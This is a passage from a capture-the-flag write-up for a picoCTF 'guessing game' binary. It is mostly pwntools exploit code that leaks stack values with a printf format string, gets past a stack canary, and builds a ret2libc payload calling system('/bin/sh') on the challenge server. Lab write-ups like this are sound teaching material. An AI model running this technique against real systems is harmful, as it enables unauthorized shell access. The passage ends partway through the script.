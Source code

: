     base_address = addr___libc_start_main - offset___libc_start_main
    addr_system = base_address + offset_system
    addr_str_bin_sh = base_address + offset_str_bin_sh

## ret2libc
### stack overflow plan

    ebp-0Ch        canary
    ebp+4          addr_system
    ebp+0Ch        addr_str_bin_sh

### python: payload

    payload = p(0x90)*(0x200)	#ebp-20Ch
    payload += p32(canary)	#ebp-0Ch
    payload += p32(0)	#ebp-8
    payload += p32(0)	#ebp-4
    payload += p32(0)	#ebp
    payload += p32(addr_system)	#ebp+4
    payload += p32(0xdeadbeef)	#ebp+8
    payload += p32(addr_str_bin_sh)	#ebp+0Ch

    sh.recvuntil('guess?\n')
    sh.sendline(guess_num)
    sh.recvuntil('\nName? ')
    sh.sendline(payload)
    
    sh.interactive()

Then we can access to shell by call `system('/bin/sh')`

## get shell and find flag
Run the following python code:

    from pwn import *
    
    #sh = process('./vuln')
    sh = remote('jupiter.challenges.picoctf.org',13610)
    # nc jupiter.challenges.picoctf.org 13610
    
    #guess_num = '-1631'
    guess_num = '-31'
    
    p = make_packer('all', endian='big', sign='unsigned')
    
    def leck_by_para_num(printf_para):
    	global sh
    	sh.recvuntil('guess?\n')
    	sh.sendline(guess_num)
    	sh.recvuntil('\nName? ')
    	sh.sendline('%'+str(printf_para)+'$p')
    	sh.recvuntil('Congrats: ')
    	sh.recv(2)
    	data = sh.recvuntil('\n\n')
    	data = int(data,16)
    	return data
    